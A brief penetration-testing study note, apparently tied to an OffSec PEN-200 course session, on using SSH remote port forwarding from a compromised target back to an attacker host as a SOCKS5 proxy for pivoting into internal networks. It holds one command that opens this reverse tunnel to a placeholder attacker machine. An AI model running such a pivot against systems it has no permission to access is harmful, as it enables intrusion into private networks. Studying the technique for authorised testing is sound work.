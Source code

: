 # Use SSH as a Proxy

**author**:: Nathan Acks  
**date**:: 2022-08-31

You can use SSH as a SOCKS5 proxy (with a tool like proxychains) using remote port forwarding.

You need to already have access to a $TARGET machine. SSH from the $TARGET back to the $ATTACKER box:

```bash
ssh -R $PORT $USER@$ATTACKER
```

This will open up $PORT on $ATTACKER, which can then be used as a SOCKS5 proxy by applications on $ATTACKER. Useful for gaining access to machines on an internal network that may be visible to $TARGET but not $ATTACKER.

* [2022-08-31 — OffSec Live: PEN-200](../log/2022-08-31-offsec-live-pen-200.md)
